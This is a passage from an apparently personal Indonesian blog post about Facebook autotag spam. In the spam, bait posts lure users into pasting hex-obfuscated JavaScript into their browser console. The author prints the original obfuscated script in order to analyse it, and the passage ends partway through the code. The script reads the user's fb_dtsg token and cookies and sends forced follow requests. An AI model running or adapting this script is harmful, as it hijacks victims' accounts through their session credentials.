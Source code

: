 ```yaml
---
title: Facebook Autotag
date: 2014-01-30 13:35:56+00:00
comments: true
excerpt:
  'Facebook belakangan ini mulai marak dengan kasus autotag, dimana setiap orang akan secara otomatis mention/summon semua friendlist nya kedalam komentar. Seperti yang saya alami beberapa waktu lalu, saya di-mention oleh beberapa teman ke beberapa post. Setelah saya coba check post tersebut ternyata hanya post bodoh yang nggak ada gunanya sama sekali, antara lain <em>Hack password teman</em>, <em>Melihat isi inbox dari akun FB temen</em> bahkan ada jg yg pake modus <em>Memperoleh ribuan follower cewek-cewek seksi</em>. WHAT THE FUCKING IS THIS SHIT!'
layout: post
tags:
- Tulisan
- Facebook
- Spam
---
```


Belakangan ini mulai marak dengan kasus autotag di Facebook, dimana setiap orang akan secara otomatis mention/summon semua friendlist nya kedalam komentar. Seperti yang saya alami beberapa waktu lalu, saya di-mention oleh beberapa teman ke beberapa post. Setelah saya coba check post tersebut ternyata hanya post bodoh yang nggak ada gunanya sama sekali, antara lain _Hack password teman_, _Melihat isi inbox dari akun FB temen_ bahkan ada juga yang pake modus _Memperoleh ribuan follower cewek-cewek seksi_. WHAT THE FUCKING IS THIS SHIT!

Semua dikemas dalam bentuk tutorial. Dimana mereka mengarahkan untuk membuka sebuah link, dan  semuanya mengarahkan ke link yang berbeda tapi dengan isi yang sama yaitu sebuah script javascript yang di encode menggunakan hexadesimal (saya kurang tau encoder apa yang mereka gunakan). Setelah itu, script tersebut harus di-copas ke browser console. Setelah script tersebut dijalankan barulah mereka dapat melihat hasilnya. Dan hasilnya adalah script tersebut memanggil semua daftar teman yang ada untuk di-mention dalam komentar post tersebut.

Saya sempat penasaran, bagaimana sebenernya kerja dari script tersebut. Apa benar-benar bisa mendapatkan sesuai yang ditulis di judul nya atau bagaimana?. Tapi kecurigaan mulai muncul saat lihat kolom komentar nya yang mencapai ratusan ribu, padahal post tersebut baru keluar beberapa jam yang lalu. Ternyata keseluruhan komentar disitu hanyalah mention. Dan dilihat dari waktu komentarnya yang sama, dapat dipastikan bahwa setiap orang yang berkomentar dalam post tersebut adalah orang yang mencoba menggunakan script tersebut. Sangat tidak mungkin seseorang dapat menyebutkan semua friendlist nya dalam waktu yang bersamaan kan?

Dari situ saya mulai penasaran dan ingin ikut mencoba, tapi bukan mencoba untuk menggunakan melainkan mencoba untuk men-decode script tersebut. Berikut adalah script aslinya

{% highlight javascript %}
var _0xa959=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x6
7\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\
x6F\x6B\x69\x65","\x3D","\x6C\x65\x6E\x67\x74\x68","\x69\x6E\x64\x65\x78\x4F\x66","\x3B","\x73\x75\x
62\x73\x74\x72\x69\x6E\x67","","\x72\x61\x6E\x64\x6F\x6D","\x66\x6C\x6F\x6F\x72","\x2F\x61\x6A\x61\x
78\x2F\x66\x6F\x6C\x6C\x6F\x77\x2F\x66\x6F\x6C\x6C\x6F\x77\x5F\x70\x72\x6F\x66\x69\x6C\x65\x2E\x70\x
68\x70\x3F\x5F\x5F\x61\x3D\x31","\x70\x72\x6F\x66\x69\x6C\x65\x5F\x69\x64\x3D","\x26\x6C\x6F\x63\x61
\x74\x69\x6F\x6E\x3D\x31\x26\x73\x6F\x75\x72\x63\x65\x3D\x66\x6F\x6C\x6C\x6F\x77\x2D\x62\x75\x74\x74
\x6F\x6E\x26\x73\x75\x62\x73\x63\x72\x69\x62\x65\x64\x5F\x62\x75\x74\x74\x6F\x6E\x5F\x69\x64\x3D\x75
\x33\x37\x71\x61\x63\x5F\x33\x37\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x6C\x73\x64\x26\x5F\x5F"
,"\x26\x70\x68\x73\x74\x61\x6D\x70\x3D","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x43\x6F\x6E\x74\x65\